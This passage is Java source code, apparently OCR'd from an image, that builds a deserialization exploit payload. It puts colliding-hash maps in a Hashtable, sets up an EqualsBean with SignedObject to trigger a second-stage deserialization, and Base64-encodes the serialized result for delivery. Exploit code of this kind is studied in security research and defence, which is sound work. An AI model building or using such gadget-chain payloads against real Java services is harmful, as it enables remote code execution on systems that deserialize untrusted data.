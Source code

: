 ```plain
        map1.put("yy",equalsBean2);
        map1.put("zZ",s);
        map2.put("zZ",equalsBean2);
        map2.put("yy",s);

        Hashtable t = new Hashtable<>();
        t.put(map1,"1");
        t.put(map2,"2");

        util.setFieldValue(equalsBean2,"_beanClass",SignedObject.class);
        util.setFieldValue(equalsBean2,"_obj",s2);

        byte[] ser = util.serialize(t);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);

    }

    private static SignedObject makeSignedObject(Object o) throws IOException, InvalidKeyException, SignatureException {
        return new SignedObject((Serializable) o,
                new DSAPrivateKey() {
                    @Override
                    public DSAParams getParams() {
                        return null;
                    }

                    @Override
                    public String getAlgorithm() {
                        return null;
                    }

                    @Override
                    public String getFormat() {
                        return null;
                    }

                    @Override
                    public byte[] getEncoded() {
                        return new byte[0];
                    }

                    @Override
                    public BigInteger getX() {
                        return null;
                    }
                },
                new Signature("x") {
                    @Override
                    protected void engineInitVerify(PublicKey publicKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineInitSign(PrivateKey privateKey) throws InvalidKeyException {

                    }

                    @Override
                    protected void engineUpdate(byte b) throws SignatureException {
```